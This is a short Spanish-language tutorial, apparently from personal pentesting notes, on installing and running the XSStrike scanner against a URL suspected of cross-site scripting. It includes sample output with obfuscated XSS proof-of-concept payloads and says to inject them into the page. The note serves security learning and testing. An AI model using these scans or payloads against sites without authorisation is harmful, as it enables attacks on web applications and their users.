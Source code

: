 # XSStrike Herramienta

Es una herramienta que te automatiza la explotacion de la vulnerabilidad `XSS` todo mediante terminal.

Esta herramienta y sus opciones las podremos ver en el repositorio oficial de la herramienta, que estara en el siguiente link:

URL = [XSStrike GitHub](https://github.com/s0md3v/XSStrike)

Para instalar la herramienta, antes instalaremos una cosa que tendremos que utilizar:

```shell
sudo apt-get install python3-pip
```

Ahora vamos a clonar este repositorio a nuestro `kali`.

```shell
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike/
```

```shell
pip3 install -r requirements.txt
```

Una vez echo todo esto, ya podremos utilizarla, por lo que copiaremos una URL que creamos que puede ser vulnerable a `XSS` y se la pasaremos a dicha herramienta de la siguiente forma:

```shell
sudo python3 xsstrike.py -u "URL_Vuln" --timeout 50
```

Info:

```
	XSStrike v3.1.5

/home/dise0/Desktop/XSStrike/core/dom.py:27: SyntaxWarning: invalid escape sequence '\$'
  controlledVariables.add(re.search(r'[a-zA-Z$_][a-zA-Z0-9$_]+', part).group().replace('$', '\$'))
/home/dise0/Desktop/XSStrike/core/dom.py:36: SyntaxWarning: invalid escape sequence '\$'
  controlledVariables.add(re.search(r'[a-zA-Z$_][a-zA-Z0-9$_]+', part).group().replace('$', '\$'))
[~] Checking for DOM vulnerabilities 
[+] Potentially vulnerable objects found 
------------------------------------------------------------
------------------------------------------------------------ailed-td").innerHTML=lMessage;
[+] WAF Status: Offline 
[!] Testing parameter: page 
[!] Reflections found: 5 
[~] Analysing reflections 
[~] Generating payloads 
[!] Payloads generated: 15456 
------------------------------------------------------------
[+] Payload: <HTml%09oNmOusEovER%0a=%0a(prompt)``> 
[!] Efficiency: 100 
[!] Confidence: 10 
[?] Would you like to continue scanning? [y/N] y
------------------------------------------------------------
[+] Payload: <a%09onmOUSEOVEr%0a=%0aconfirm()%0dx>v3dm0s 
[!] Efficiency: 100 
[!] Confidence: 10 
[?] Would you like to continue scanning? [y/N] y
------------------------------------------------------------
[+] Payload: <a/+/ONPOiNteREnTEr%0a=%0aa=prompt,a()>v3dm0s 
[!] Efficiency: 100 
[!] Confidence: 10 
[?] Would you like to continue scanning? [y/N] n
```

De primeras nos indica que si es vulnerable a `XSS` y que el parametro en concreto seria el `page`, por lo que nos genera un `payload` y nos pregunta si queremos generar otro.

Si le damos a `y` podremos estar generando `payloads` y nos va diciendo el porcentaje que tiene de que funcione mas la confianza del mismo.

Y con estos `payloads` los injectamos en la pagina.
